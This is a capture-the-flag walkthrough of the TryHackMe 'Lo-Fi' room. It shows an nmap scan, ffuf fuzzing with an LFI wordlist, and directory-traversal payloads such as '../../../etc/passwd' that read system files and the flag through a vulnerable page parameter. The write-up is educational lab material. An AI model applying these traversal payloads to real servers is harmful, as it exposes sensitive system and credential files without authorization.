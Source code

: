 ```yaml
---
title: Lo-Fi - cmnatic
date: 2025-02-09 11:27:10 -5000
categories: [THM,Easy,Linux]
tags: [Web,LFI,Misconfiguration,Reconnaissance]
---
```


Want to hear some lo-fi beats, to relax or study to? We've got you covered!

![Lo-Fi.png](Assets/Pictures/Lo-Fi/Lo-Fi.png)

The Lo-Fi Room on TryHackMe is an easy-level challenge focused on Local File Inclusion (LFI). This vulnerability allows an attacker to read files on the server, potentially exposing sensitive information. For example, accessing `/etc/passwd` could reveal system user details.

In this walkthrough, we’ll explore the basics of LFI, understand how it works, and exploit it to retrieve important files. Let’s dive in and start solving the room!

### Intelligence Gathering
First, we analyzed the room description and discovered some valuable hints. These clues provided insights into potential vulnerabilities and guided our approach to exploiting the Local File Inclusion (LFI) flaw. By carefully examining the information given, i was able to identify key entry points for further investigation.
![image description](Assets/Pictures/Lo-Fi/Hints.png)

Now, i begin with an Nmap scan to identify open ports and running services on the target machine. This step helps me understand the attack surface and determine potential entry points for exploitation. Let’s run the scan and analyze the results!

### Nmap Scan
````bash
┌──(Cyb3rWo9f㉿v0ids3ek3r)-[/TryHackMe/Lo-Fi]
└─$ nmap -sC -sV -T4 lo-fi.thm
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-02-10 16:23 IST
Nmap scan report for lo-fi.thm
Host is up (0.20s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 c7:49:c9:93:76:e5:e8:82:16:61:62:a4:d2:d4:16:48 (RSA)
|   256 7e:87:ae:79:e1:8c:da:45:e5:93:e4:f0:8b:4f:2a:ce (ECDSA)
|_  256 45:57:16:13:31:26:fb:ea:45:94:1f:86:27:71:c4:f3 (ED25519)
80/tcp open  http    Apache httpd 2.2.22 ((Ubuntu))
|_http-title: Lo-Fi Music
|_http-server-header: Apache/2.2.22 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 15.62 seconds
````
From our Nmap scan, we discovered that two ports are open:
- Port 22 – Running SSH, which could be useful for remote access if i find valid credentials.
- Port 80 – Hosting a web server, making it our primary target for further investigation.

Since the challenge revolves around Local File Inclusion (LFI), i’ll focus on exploring the web application.
![image description](Assets/Pictures/Lo-Fi/web.png)

Everything seemed normal at first, but upon exploring the Discography section, i clicked on "Relax" and noticed something interesting. The URL contained a page parameter, formatted as: `http://lo-fi.thm/?page=relax.php`
![image description](Assets/Pictures/Lo-Fi/page-parameter.png)

When i replaced relax.php with /etc/passwd in the page parameter: `http://lo-fi.thm/?page=/etc/passwd`
Instead of displaying the file contents, i met with a warning message:

- HACKKERRR!! HACKER DETECTED. STOP HACKING YOU STINKIN HACKER!

![image description](Assets/Pictures/Lo-Fi/warn-message.png)

This response indicates that the server has some basic detection mechanisms in place, but it doesn’t appear to be properly filtering Local File Inclusion (LFI) attempts. Instead of blocking LFI outright, it's likely checking for direct access to system files.
To bypass this restriction, we need to perform directory traversal using techniques like `../../../../etc/passwd` to navigate through the file system and retrieve the target files.

To perform directory traversal, i will use fuzzing techniques to identify potential bypasses. Specifically, i’ll leverage FFUF (Fast File Fuzzer) along with LFI wordlists to automate testing various traversal payloads.
- By crafting payloads like: `http://lo-fi.thm/?page=FUZZ`

### Fuzzing
````bash
┌──(Cyb3rWo9f㉿v0ids3ek3r)-[/TryHackMe/Lo-Fi]
└─$ ffuf -w "/usr/share/wordlists/seclists/Fuzzing/LFI/LFI-Jhaddix.txt" -u "http://lo-fi.thm/?page=FUZZ" -fl 124

../../../etc/passwd     [Status: 200, Size: 4638, Words: 1363, Lines: 143, Duration: 185ms]
../../../../etc/passwd  [Status: 200, Size: 4638, Words: 1363, Lines: 143, Duration: 185ms]
````

Now, i will attempt to access `/etc/passwd` by replacing the page parameter with result payloads.
![image description](Assets/Pictures/Lo-Fi/etc-passwd.png)
i successfully bypassed the restrictions and gained access to the `/etc/passwd` file.
 - This confirms that the application is vulnerable to Local File Inclusion (LFI), allowing us to read sensitive system files.

### Flag
![image description](Assets/Pictures/Lo-Fi/flag.txt.png)
By replacing `/etc/passwd` with `flag.txt` in the page parameter
we successfully accessed the flag and completed the `Lo-Fi` room!
![image description](Assets/Pictures/Lo-Fi/lofi-solved.png)

### Happy hacking !
- This was my first write-up — i hope you found it helpful!

Here are some resources:
* [https://www.geeksforgeeks.org/local-file-inclusion-lfi/](https://www.geeksforgeeks.org/local-file-inclusion-lfi/)
* [https://book.hacktricks.wiki/en/pentesting-web/file-inclusion/index.html](https://book.hacktricks.wiki/en/pentesting-web/file-inclusion/index.html)